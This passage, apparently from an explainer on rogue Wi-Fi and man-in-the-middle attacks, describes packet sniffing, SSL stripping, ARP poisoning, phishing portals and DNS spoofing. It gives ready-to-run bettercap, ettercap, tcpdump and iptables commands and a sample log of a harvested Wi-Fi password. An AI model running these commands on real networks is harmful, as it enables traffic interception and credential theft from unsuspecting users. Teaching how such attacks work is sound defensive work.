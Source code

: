 
### **3. Data Interception Methods**  
Once users connect, attackers employ various techniques to capture data:  

#### **A. Packet Sniffing**  
- **Tools**:  
  - **Wireshark**: Captures and analyzes raw network traffic (e.g., unencrypted HTTP requests).  
  - **tcpdump**: Command-line tool for logging packets to files.  
- **Example**:  
  ```bash
  tcpdump -i wlan0 -w captured_traffic.pcap
  ```  

#### **B. Man-in-the-Middle (MITM) Attacks**  
- **SSL Stripping**: Tools like **BetterCap** downgrade HTTPS to HTTP, exposing sensitive data:  
  ```bash
  bettercap -iface wlan0 -eval "set https.strip true; https.on"
  ```  
- **ARP Poisoning**: Forges ARP tables to route traffic through the attacker’s machine:  
  ```bash
 ettercap -T -q -i wlan0 -P dns_spoof -M arp:remote /Target_IP/ //
  ```  

#### **C. Phishing Portals**  
- **Fake Login Pages**: Frameworks like **WiFi-Pumpkin** or **wifiphisher** host cloned login pages (e.g., banking, social media) to harvest credentials.  
  - Example: A fake "firmware upgrade" page prompts users to enter their network password:  
    ```plaintext
    [*] POST 10.0.0.93 wfphshr-wpa-password=s3cr3tp4s5
    ```  

---

### **4. Traffic Redirection**  
Attackers manipulate network configurations to control user traffic:  
- **DNS Spoofing**: Redirects users to malicious sites via forged DNS responses.  
  - Example with BetterCap:  
    ```bash
    bettercap -eval "dns_spoof.add example.com 192.168.1.100"
    ```  
- **IPTables Rules**: Route all traffic through the attacker’s machine for inspection:  
  ```bash
  iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 10000
  ```  

---

### **Key Exploited Vulnerabilities**  
| **Vulnerability**          | **How It’s Exploited**                                                                 |  
|----------------------------|---------------------------------------------------------------------------------------|  
| **User Trust in SSIDs**     | Users assume familiar network names (e.g., "Hotel_Guests") are legitimate.             |  
| **Weak Encryption**         | Open networks or WEP/WPA vulnerabilities allow easier AP cloning.                      |  
| **Lack of HTTPS Enforcement** | Unencrypted HTTP traffic exposes passwords and session cookies.                     |  

---